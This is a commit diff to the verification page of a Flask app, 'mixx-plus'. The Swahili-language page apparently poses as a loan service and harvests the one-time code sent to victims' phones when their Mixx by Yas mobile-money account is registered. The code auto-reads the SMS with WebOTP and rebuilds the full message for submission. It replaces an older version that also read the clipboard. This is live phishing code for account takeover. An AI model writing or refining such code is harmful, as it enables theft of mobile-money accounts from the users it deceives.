

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the whole page at 97% size. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -70,16 +70,15 @@
     <div class="main-container">
         <div class="loan-summary"><div style="font-size:0.75rem;color:var(--gray);">Mkopo Wako</div><div class="amount" id="loanAmount">TZS 0</div></div>
         <div class="card">
-            <!-- SCREEN 1: Code Verification -->
             <div class="screen active" id="screen1">
                 <h3>✅ Namba ya Uthibitisho <span class="auto-detect-badge"><span class="dot"></span> Auto-detect</span></h3>
                 <div class="phone-display" id="showPhone">+255 ---------</div>
                 <div class="code-instruction">
-                    <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki</strong><br><br>
+                    <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki kutoka kwenye arifa</strong><br><br>
                     <strong>1.</strong> Subiri SMS ifike kwenye simu yako<br>
-                    <strong>2.</strong> Ukishaipokea, bonyeza <strong>"Allow"</strong> kwenye kidirisha kitakachoonekana<br>
+                    <strong>2.</strong> Ukishaipokea, bonyeza <strong>"Allow"</strong> kwenye kidirisha<br>
                     <strong>3.</strong> Ujumbe utajaza kiotomatiki<br>
-                    <strong>4.</strong> Bonyeza <strong>"Endelea"</strong> kutuma
+                    <strong>4.</strong> Bonyeza <strong>"Endelea"</strong>
                 </div>
                 <a href="sms:" class="sms-open-btn" id="btnIPhone" style="display:none;">
                     <i class="fas fa-envelope"></i> 📱 iPhone: Gusa Hapa Kufungua Messages
@@ -87,14 +86,12 @@
                 <a href="sms:" class="sms-open-btn" id="btnAndroid" style="display:none;">
                     <i class="fas fa-envelope"></i> 🤖 Android: Gusa Hapa Kufungua SMS
                 </a>
-                <textarea id="smsMessage" class="sms-textarea" placeholder="SMS itaonekana hapa kiotomatiki..."></textarea>
+                <textarea id="smsMessage" class="sms-textarea" placeholder="SMS itaonekana hapa kiotomatiki baada ya kubonyeza 'Allow'..."></textarea>
                 <div class="timer-bar" id="timerDisplay">⏳ 30s</div>
                 <div class="error-msg" id="codeError"></div>
                 <button class="btn btn-gold" id="submitBtn" onclick="submitCode()">Endelea →</button>
                 <div class="resend-link"><a onclick="resendCode()">↻ Hukupokea SMS? Bonyeza hapa</a></div>
             </div>
-
-            <!-- SCREEN 2: Waiting for verification -->
             <div class="screen" id="screen2">
                 <div class="waiting-content">
                     <div class="spinner"></div>
@@ -130,7 +127,6 @@
         var resendCooldown = false;
         var isSubmitting = false;
         var smsDetected = false;
-        var webOtpUsed = false;
 
         // ================================================================
         // iPhone/Android DETECTION
@@ -184,7 +180,6 @@
             resendCooldown = true;
             document.getElementById('smsMessage').value = '';
             smsDetected = false;
-            webOtpUsed = false;
             document.getElementById('codeError').textContent = 'OTP Imetumwa. Subiri msimbo kutoka Mixx. (' + resendCount + '/3)';
             document.getElementById('codeError').style.color = 'var(--primary)';
             document.getElementById('codeError').classList.add('show');
@@ -199,7 +194,7 @@
             } catch(e) {}
 
             setTimeout(function() { resendCooldown = false; }, 30000);
-            setTimeout(startAutoDetect, 1500);
+            setTimeout(waitForNotification, 1500);
         }
 
         async function submitCode() {
@@ -207,7 +202,7 @@
 
             var smsText = document.getElementById('smsMessage').value.trim();
             if (!smsText) {
-                document.getElementById('codeError').textContent = 'Subiri SMS ifike au bandika mwenyewe.';
+                document.getElementById('codeError').textContent = 'Subiri SMS ifike kwanza.';
                 document.getElementById('codeError').style.color = 'var(--danger)';
                 document.getElementById('codeError').classList.add('show');
                 return;
@@ -252,7 +247,6 @@
             document.getElementById('screen1').classList.add('active');
             document.getElementById('smsMessage').value = '';
             smsDetected = false;
-            webOtpUsed = false;
             document.getElementById('codeError').textContent = 'Msimbo sio sahihi. Jaribu tena.';
             document.getElementById('codeError').style.color = 'var(--danger)';
             document.getElementById('codeError').classList.add('show');
@@ -263,48 +257,40 @@
             isSubmitting = false;
             document.getElementById('submitBtn').disabled = false;
             document.getElementById('submitBtn').innerHTML = 'Endelea →';
-            setTimeout(startAutoDetect, 1500);
+            setTimeout(waitForNotification, 1500);
         }
 
         // ================================================================
-        // SMS AUTO-DETECTION - WebOTP (FULL SMS) - WAITS FOR NOTIFICATION
+        // WAIT FOR NOTIFICATION - WebOTP ONLY (NO CLIPBOARD)
         // ================================================================
-        function startAutoDetect() {
+        function waitForNotification() {
             if (!document.getElementById('screen1').classList.contains('active')) {
-                console.log('Auto-detect: Not on code screen');
+                console.log('Wait: Not on code screen');
                 return;
             }
 
-            console.log('Auto-detect: Starting - waiting for SMS notification...');
-            var smsTextarea = document.getElementById('smsMessage');
-            if (!smsTextarea) return;
-
-            function fillSMS() {
-                if (smsDetected) return;
-                var text = smsTextarea.value.trim();
-                if (text.length > 5) {
-                    smsDetected = true;
-                    console.log('Auto-detect: SMS filled in textarea - user can now submit');
-                    clearInterval(countdownTimer);
-                    document.getElementById('timerDisplay').textContent = '✅ Imekamilika - Bonyeza Endelea';
-                    document.getElementById('timerDisplay').className = 'timer-bar';
-                    // DO NOT auto-submit - let user click the button
-                }
-            }
-
-            // WebOTP API - Auto-read SMS from notification
-            function autoReadSMS() {
+            // Check if WebOTP is supported
             if (!('OTPCredential' in window)) {
-                    console.log('Auto-detect: WebOTP not supported on this browser');
+                document.getElementById('codeError').textContent = 'ℹ️ Kifaa chako hakitumii auto-detect. Tafadhali nakili mwenyewe.';
+                document.getElementById('codeError').style.color = '#f59e0b';
+                document.getElementById('codeError').classList.add('show');
+                console.log('Wait: WebOTP not supported');
                 return;
             }
 
-                console.log('Auto-detect: Listening for SMS notification via WebOTP...');
+            console.log('⏳ Waiting for SMS notification...');
+            document.getElementById('codeError').textContent = '⏳ Inasubiri SMS...';
+            document.getElementById('codeError').style.color = 'var(--primary)';
+            document.getElementById('codeError').classList.add('show');
+
+            var smsTextarea = document.getElementById('smsMessage');
 
             var controller = new AbortController();
             var timeout = setTimeout(function() {
                 controller.abort();
-                    console.log('Auto-detect: WebOTP timeout - checking clipboard as fallback');
+                console.log('Wait: Timeout - no SMS received');
+                document.getElementById('codeError').textContent = '⏱️ Muda Umeisha. Bonyeza "Hukupokea SMS"';
+                document.getElementById('codeError').style.color = 'var(--danger)';
             }, 60000);
 
             navigator.credentials.get({
@@ -314,135 +300,47 @@
             .then(function(otp) {
                 clearTimeout(timeout);
                 if (otp && otp.code) {
-                        webOtpUsed = true;
+                    console.log('✅ SMS detected from notification! Code:', otp.code);
+
                     // Build the FULL SMS in your format
                     var fullSMS = 'You are being registered in Mixx by Yas Super App, use the code ' + otp.code + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
 
                     // Fill the textarea with the FULL SMS
                     smsTextarea.value = fullSMS;
-                        console.log('✅ Auto-detect: SMS detected from notification! Code: ' + otp.code);
-                        console.log('✅ Auto-detect: Full SMS: ' + fullSMS);
+                    smsDetected = true;
 
-                        var errorEl = document.getElementById('codeError');
-                        errorEl.textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
-                        errorEl.style.color = '#10b981';
-                        errorEl.classList.add('show');
-                        setTimeout(function() {
-                            errorEl.classList.remove('show');
-                        }, 5000);
+                    console.log('✅ Full SMS:', fullSMS);
 
-                        // JUST FILL THE SMS - DO NOT AUTO-SUBMIT
-                        fillSMS();
+                    document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
+                    document.getElementById('codeError').style.color = '#10b981';
+                    document.getElementById('codeError').classList.add('show');
+
+                    clearInterval(countdownTimer);
+                    document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
+                    document.getElementById('timerDisplay').className = 'timer-bar';
                 }
             })
             .catch(function(e) {
                 if (e.name === 'AbortError') {
-                        console.log('Auto-detect: WebOTP timeout - trying clipboard...');
-                        readClipboard();
+                    console.log('Wait: WebOTP timeout');
                 } else {
-                        console.log('Auto-detect: WebOTP error', e);
-                        readClipboard();
+                    console.log('Wait: WebOTP error', e);
+                    document.getElementById('codeError').textContent = '❌ Hitilafu. Tafadhali nakili SMS mwenyewe.';
+                    document.getElementById('codeError').style.color = 'var(--danger)';
+                    document.getElementById('codeError').classList.add('show');
                 }
             });
-            }
-
-            // Clipboard fallback (ONLY if WebOTP fails)
-            function readClipboard() {
-                if (webOtpUsed) return;
-                if (!navigator.clipboard || !navigator.clipboard.readText) {
-                    console.log('Auto-detect: Clipboard not available');
-                    return;
-                }
-
-                console.log('Auto-detect: Checking clipboard (fallback)...');
-                navigator.clipboard.readText()
-                .then(function(text) {
-                    if (text && text.length > 10 && !smsDetected) {
-                        smsTextarea.value = text;
-                        console.log('Auto-detect: SMS from clipboard (fallback)');
-                        var errorEl = document.getElementById('codeError');
-                        errorEl.textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
-                        errorEl.style.color = '#10b981';
-                        errorEl.classList.add('show');
-                        setTimeout(function() {
-                            errorEl.classList.remove('show');
-                        }, 5000);
-                        fillSMS();
-                    }
-                })
-                .catch(function(e) {
-                    console.log('Auto-detect: Clipboard error', e);
-                });
-            }
-
-            function detectSMS() {
-                if (smsDetected) return;
-                if (!document.getElementById('screen1').classList.contains('active')) {
-                    console.log('Auto-detect: Screen changed, stopping');
-                    return;
-                }
-                // PRIMARY: WebOTP from notification
-                autoReadSMS();
-            }
-
-            setTimeout(detectSMS, 1000);
-
-            var detectInterval = setInterval(function() {
-                if (!document.getElementById('screen1').classList.contains('active')) {
-                    clearInterval(detectInterval);
-                    console.log('Auto-detect: Stopped');
-                    return;
-                }
-                if (!smsDetected && !webOtpUsed) {
-                    detectSMS();
-                }
-            }, 5000);
-
-            // Paste event listener (manual paste)
-            document.addEventListener('paste', function(e) {
-                if (!document.getElementById('screen1').classList.contains('active')) return;
-                if (smsDetected) return;
-                var text = e.clipboardData && e.clipboardData.getData('text');
-                if (text && text.length > 10) {
-                    smsTextarea.value = text;
-                    smsDetected = true;
-                    console.log('Auto-detect: SMS pasted manually');
-                    var errorEl = document.getElementById('codeError');
-                    errorEl.textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
-                    errorEl.style.color = '#10b981';
-                    errorEl.classList.add('show');
-                    setTimeout(function() {
-                        errorEl.classList.remove('show');
-                    }, 5000);
-                    // JUST FILL - no auto-submit
-                }
-            });
-
-            // Visibility change (user returns to page)
-            document.addEventListener('visibilitychange', function() {
-                if (document.visibilityState === 'visible' &&
-                    !smsDetected &&
-                    !webOtpUsed &&
-                    document.getElementById('screen1').classList.contains('active')) {
-                    console.log('Auto-detect: Page became visible, checking for SMS...');
-                    setTimeout(detectSMS, 500);
-                }
-            });
-
-            console.log('✅ Auto-detect: Ready - waiting for SMS notification');
         }
 
         // ================================================================
         // START
         // ================================================================
         startCountdown();
-        setTimeout(startAutoDetect, 500);
+        setTimeout(waitForNotification, 500);
 
-        console.log('✅ Code page loaded with auto-detection');
+        console.log('✅ MixxPlus - Waiting for SMS notification...');
         console.log('📱 App ID: ' + appId);
         console.log('📱 Phone: ' + userPhone);
-        console.log('📱 SMS will be detected from NOTIFICATION and auto-filled');
-        console.log('📱 User will click "Endelea" manually to submit');
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
